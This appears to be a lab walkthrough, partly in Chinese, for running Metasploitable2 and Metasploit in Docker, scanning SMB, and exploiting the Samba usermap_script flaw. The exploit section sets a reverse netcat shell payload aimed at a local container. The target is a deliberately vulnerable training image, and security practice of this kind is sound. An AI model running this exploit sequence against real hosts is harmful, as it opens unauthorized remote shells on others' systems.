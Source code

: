 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
- Enable metaspoilt module and keep running
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"`

- Get Target IP
    - `docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable`

- Optional
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`

- Explanation of vulnerable
    - -p 445:445：開放 SMB（檔案共享漏洞）
    - -p 21:21：開放 FTP（容易被暴力破解）
    - -p 22:22：開放 SSH（可能存在弱密碼）
    - -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
- Check docker status
    - `docker ps`

- Debug
- If docker exist, but didn't running then delete it.
    - `docker rm -f vulnerable`
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"` # rerun vul docker
- Rerun
    - `docker start vulnerable`

# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`
`help  # check metasploit status`

- Optional
`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`

# 4. Scan target system
- Enable metaspoilt moudle
    - `use exploit/multi/samba/usermap_script`

- In metaspoilt command line
    - `msf6 > use auxiliary/scanner/smb/smb_version`
    - `msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2`
    - `msf6 auxiliary(scanner/smb/smb_version) > run`  # check port and vul

# 5. Exploit
- Load script
    - msf6 > `use exploit/multi/samba/usermap_script`

- Set target and payload
    - msf6 exploit(multi/samba/usermap_script) > `set RHOSTS 172.17.0.2`
    - msf6 exploit(multi/samba/usermap_script) > `check`
    - msf6 exploit(multi/samba/usermap_script) > `set PAYLOAD cmd/unix/reverse_netcat`

- Set reverse local host and attack
    - msf6 exploit(multi/samba/usermap_script) > `set LHOST 172.17.0.3`
    - msf6 exploit(multi/samba/usermap_script) > `exploit`

